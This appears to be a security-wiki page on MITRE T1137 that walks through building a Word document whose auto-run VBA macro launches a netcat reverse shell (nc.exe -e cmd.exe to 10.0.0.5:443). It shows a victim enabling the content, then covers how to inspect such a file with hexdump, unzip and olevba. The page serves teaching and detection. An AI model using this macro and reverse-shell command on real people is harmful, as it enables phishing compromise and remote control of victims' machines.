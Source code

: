 ```yaml
---
description: Code execution with VBA Macros
---
```


# T1137: Phishing - Office Macros

This technique will build a primitive word document that will auto execute the VBA Macros code once the Macros protection is disabled.

## Weaponization

1. Create new word document \(CTRL+N\)
2. Hit ALT+F11 to go into Macro editor
3. Double click into the "This document" and CTRL+C/V the below:

{% code-tabs %}
{% code-tabs-item title="macro" %}
```javascript
Private Sub Document_Open()
  MsgBox "game over", vbOKOnly, "game over"
  a = Shell("C:\tools\shell.cmd", vbHide)
End Sub
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% code-tabs %}
{% code-tabs-item title="C:\\tools\\shell.cmd" %}
```bash
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

This is how it should look roughly:

![](../../.gitbook/assets/macros-code.png)

ALT+F11 to switch back to the document editing mode and add a flair of social engineering like so:

![](../../.gitbook/assets/macros-body%20%281%29.png)

Save the file as a macro enabled document, for example a Doc3.dotm:

![](../../.gitbook/assets/macros-filename.png)

{% file src="../../.gitbook/assets/doc3.dotm" caption="Dot3.dotm - Word Document with Embedded VBA Macros" %}

## Execution

Victim launching the Doc3.dotm:

![](../../.gitbook/assets/macro-victim.png)

...and enabling the content - which gives the attacker a reverse shell:

![](../../.gitbook/assets/macro-shell.png)

## Observations

The below graphic represents the process ancestry and what happened after the victim had clicked the "Enable Content" button in our malicious Doc3.dotm document:

![](../../.gitbook/assets/macro-ancestry.png)

## Inspection

If you received a suspicious Office document and do not have any malware analysis tools, hopefully at least you have access to a ZIP and Strings utility or any type of Hex Editor to hand. 

Since Office files are essentially ZIP archives \(PK magic bytes\):

```bash
root@remnux:/home/remnux# hexdump -C Doc3.dotm | head -n1
00000000  50 4b 03 04 14 00 06 00  08 00 00 00 21 00 cc 3c  |PK..........!..<|
```

...the file can be renamed to **Doc3.zip** and simply unzipped like a regular archive. Doing so deflates the archive and reveals the files that make up the suspicious office file. Files include `document.xml` which is where the main document body text goes and `vbaProject.bin` containing the evil macros:

![](../../.gitbook/assets/macros-deflated.png)

Looking inside the `document.xml`, we can see the body copy we inputted at the very begging of this page in the [Weaponization](t1137-office-vba-macros.md#weaponization) section:

![](../../.gitbook/assets/macros-document-unzipped.png)

Additionally, if you have the strings or a hex dumping utility, you can pass the `vbaProject.bin` through. This can sometimes give enough to determine if the document is suspicious. 

I ran `hexdump -C vbaProject.bin` which clearly revealed some fragmented keywords that should immediately raise your suspicion - keywords included: **Shell, Hide, Sub\_Open** and something that looks like a file path:

![](../../.gitbook/assets/macros-hex-shell.png)

If you have a malware analysis linux distro Remnux, you can easily inspect the VBA macros code contained in the document by issuing the command `olevba.py filename.dotm`. As seen below, the command nicely decodes the `vbaProject.bin`  and reveals the actual code as well as provides some interpretation of the commands found in the script:

![](../../.gitbook/assets/macros-olevba.png)

{% embed url="https://attack.mitre.org/wiki/Technique/T1137" %}

